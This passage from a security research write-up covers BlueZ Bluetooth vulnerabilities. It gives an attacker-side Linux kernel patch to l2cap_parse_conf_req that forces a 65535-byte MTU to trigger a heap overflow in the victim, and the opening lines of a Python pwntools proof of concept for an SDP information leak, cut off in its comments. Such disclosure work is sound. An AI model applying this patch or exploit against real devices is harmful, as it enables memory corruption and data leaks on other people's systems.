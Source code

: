 Please note that this behavior is not really a security vulnerability in itself.
It does follow the specification which describes that it should be possible to
reject configuration parameters and suggest acceptable ones. Normally it would not be a problem to increase MTU size, it is simply due to the heap overflow that this causes trouble.

**Modifying the kernel**<br>
Important: only the ATTACKER has to modify their kernel. The victim kernel does not need to be modified otherwise there wasn’t a vulnerability at all.

In our case, we used a Linux 4.13 kernel. Here are the required modifications:
Before compiling the kernel, you need to modify l2cap_parse_conf_req in
net/bluetooth/l2cap_core.c

```c
3428 if (result == L2CAP_CONF_SUCCESS) {
3429  /* Configure output options and let the other side know
3430  * which ones we don't like. */
3431
3432  if (mtu < L2CAP_DEFAULT_MIN_MTU) {
3433   result = L2CAP_CONF_UNACCEPT;
3434  } else if(chan->omtu != 65535){
3435   set_bit(CONF_MTU_DONE, &chan->conf_state);
3436   printk(KERN_INFO "hax setting omtu to 65535 from %d\n",chan->omtu);
3437   chan->omtu = 65535;
3438   result = L2CAP_CONF_UNACCEPT;
3439
3440 } else {
3441  chan->omtu = mtu;
3442  set_bit(CONF_MTU_DONE, &chan->conf_state);
3443 }
3444 l2cap_add_conf_opt(&ptr, L2CAP_CONF_MTU, 2, chan->omtu, endptr - ptr);
```

We added the “else if” that ensures we do not accept the configuration as long as the OMTU isn’t 65535. Additionally we added a printk so we can check that the branch has been triggered correctly by viewing kernel.
Once you compile your modified kernel, you can run the PoC attached to this writeup.

**Conclusion**<br>
Implementing a complete Bluetooth stack correctly is extremely challenging. There are dozens of different protocols involved which often implement the same features.

This can for instance be seen with the fragmentation in SDP. All this complexity creates a huge attack surface. We have demonstrated that only within a single, commonly used protocol multiple critical issues can be found. It seems highly likely that other parts of BlueZ contain similar vulnerabilities, more research is definitely required to ensure the Linux Bluetooth stack is secure from attacks.

**Exploits**<br>
Inforamtion Leak Exploit:<br>
```python
from pwn import *
import bluetooth
if not 'TARGET' in args:
    log.info("Usage: sdp_infoleak_poc.py TARGET=XX:XX:XX:XX:XX:XX")
    exit()
# the configuration here depends on the victim device.
# Discovery could be automated but for a simple PoC it would be a bit overkill
# the attacker can simply gather the required information by running
# sdptool browse --xml XX:XX:XX:XX:XX:XX
# on his machine (replace XX:XX:XX:XX:XX:XX with victim MAC)
# I have chosen to request attributes from the Generic Access Profile
# but it does not really matter as long as we can generate a response with a
# size large enough to create a continuation state
# on my machine, sdptool prints the following:
#	<attribute id="0x0000">
#		<uint32 value="0x00010001" />
```
